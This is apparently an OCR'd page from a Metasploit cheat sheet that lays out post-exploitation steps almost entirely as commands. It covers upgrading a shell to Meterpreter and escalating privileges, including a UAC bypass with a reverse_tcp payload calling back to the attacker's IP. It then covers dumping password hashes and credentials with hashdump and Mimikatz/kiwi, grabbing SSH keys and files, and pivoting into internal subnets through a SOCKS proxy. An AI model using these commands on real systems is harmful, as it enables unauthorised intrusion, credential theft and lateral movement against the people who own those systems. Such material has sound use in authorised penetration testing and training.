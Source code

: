 Upgrading a basic shell to Meterpreter (if you get a simple /bin/sh or cmd)
```
# With a valid session ID (e.g., 1)
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
```

Post-exploitation: stabilize, enumerate, escalate
```
# Interact with Meterpreter session
sessions -i 1

# Basic info
sysinfo
getuid
ipconfig

# List processes and migrate to a stable one (Windows)
ps
migrate <pid>

# Try privilege escalation
getsystem
# or suggest local exploits
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

# If UAC present (Windows), try bypass (example)
use exploit/windows/local/bypassuac
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run
```

Credential access and loot
```
# Back in Meterpreter
load priv
hashdump             # Windows SAM hashes (requires sufficient privs)

# Try Mimikatz (kiwi) if available in your build
load kiwi
creds_all

# Grab interesting files
search -f *id_rsa*
download C:\\Users\\%USERNAME%\\Desktop\\sensitive.txt
```

Pivoting: route + SOCKS + proxychains
```
# Add a route for an internal subnet discovered from the compromised host
meterpreter > run autoroute -s 192.168.56.0/24
meterpreter > background

# Start a SOCKS proxy inside Metasploit
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVHOST 127.0.0.1
set SRVPORT 1080
run -j

```